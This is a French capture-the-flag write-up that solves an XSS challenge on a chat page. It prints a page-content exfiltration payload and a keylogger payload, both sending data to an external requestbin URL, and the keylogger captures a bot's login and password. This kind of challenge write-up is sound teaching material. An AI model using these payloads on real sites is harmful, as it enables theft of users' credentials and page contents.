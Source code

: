 # Onion Kitten Part 1
## Description :
Nous avons découvert un forum assez suspect dans les mails précedemment découverts. Trouvez un moyen de vous connecter et de récupérer les identifiants d'un utilisateur pour découvrir ce qu'il se trame.

## Information complémentaire : 
Un chat est disponible, il est potentiellement vulnérable. Il n'est pas utile d'usurper la session de l'utilisateur, nous avons besoin de son mot de passe !

## Source :
https://ia.challenge.operation-kernel.fr/

---

## Resolution : 
Indice mis à notre disposition :
- Il est indiqué que j'ai besoin de récupérer son mot de passe.

En allant sur le site, j'ai remarqué qu'il y'avait une partie "Chat". Je rentre mon username et j'essaie de voir s'il y a une XSS en envoyant dans le chat `<script>alert(1)</script>`, j'ai bien une pop-up qui apparaît avec écrit 1.

A partir d'ici, je sais que je peux exploiter une faille XSS pour réussir à avoir le mot de passe de l'utilisateur. Je suis un tuto qui est présent sur ce site : (XSS Password Stealing)[https://medium.com/dark-roast-security/password-stealing-from-https-login-page-and-csrf-bypass-with-reflected-xss-76f56ebc4516].

Après plusieurs essaie, je me rends compte que l'utilisateur n'envoie pas de requête submit ou c'est protégé. J'utilise le site [Requestbin](https://pipedream.com/requestbin) afin de vérifier si l'utilisateur est déjà connecté ou non, grâce à ce code qui me permet de recevoir ce que l'utilisateur voit en arrivant sur le site : 
```
var XHR = new XMLHttpRequest();
XHR.open('POST', 'https://eowk3k3zl6kfmdt.m.pipedream.net', true);
XHR.send(encodeURIComponent(document.body.innerHTML));
```
En décodant le body, je peux remarquer qu'il est n'est pas connecté et que son nom dans le chat est "bot".

Je me dis qu'il a sûrement une protection sur le submit donc je décide de faire un payload permettant de récupérer les touches tapés par le bot.

```
let i = 0;
function logKey(e){ 
    i++;
    fetch(`https://eowk3k3zl6kfmdt.m.pipedream.net/?key=${e.key}&type=${e.target.id}&number=${i}`);
}
document.addEventListener('keypress', logKey);
``` 
Ce script permet de recevoir la touche qui a été pressé grâce à l'option `e.key`, l'option `e.target.id` permet de savoir s'il a été saisi dans le login ou password et le number `i` me permet de savoir dans quel ordre je dois positionner ce que je reçois en lettre.

Une fois que toutes les requêtes reçu et traités j'obtiens ça :
- Login : Shopeors
- Mot de passe : X5S_4_3V3r!!

Voici le flag final : `HACK{X5S_4_3V3r!!}`